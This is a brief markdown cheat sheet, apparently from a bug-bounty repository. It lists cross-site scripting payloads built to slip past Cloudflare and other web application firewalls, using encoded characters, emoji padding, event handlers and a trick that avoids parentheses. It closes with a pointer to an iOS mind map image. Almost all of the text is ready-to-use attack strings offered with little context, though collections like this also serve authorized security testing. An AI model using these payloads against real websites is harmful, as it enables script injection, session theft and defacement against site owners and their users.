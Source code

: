 
##### Stored XSS and cloudflare bypass
```js
<a"/aonclick=(confirm)()>click
```
##### EX
use emojis to bypass payload
```js
😎<<svg/onload😎=/svg/onload=svg/onmouseOver=confirm'1'><!--😎//="
```
#### Parantheses less arbitrary xss in URL 
```js
onhashchange=setTimeout;
Object.prototype.toString=RegExp.prototype.toString;
Object.prototype.source=location.hash;
location.hash=null
```
#### XSS to WAF Bypass
**payload**
```js
'-(a=alert,b="_Yooo!_",[b].find(a))-'
<svg%09%0a%0b%0c%0d%0a%00%20onload=alert(1)>
<iframe src=%0Aj%0Aa%0Av%0Aa%0As%0Ac%0Ar%0Ai%0Ap%0At%0A%3Aalert(0)">
<script%20~~~>\u0061\u006C\u0065\u0072\u0074''</script%20~~~>
<svg onload='new Function'["_Y000!_"].find(al\u0065rt)''>
```
### IOS Mind map
![mindmap](img/ios-mindmap.jpg)
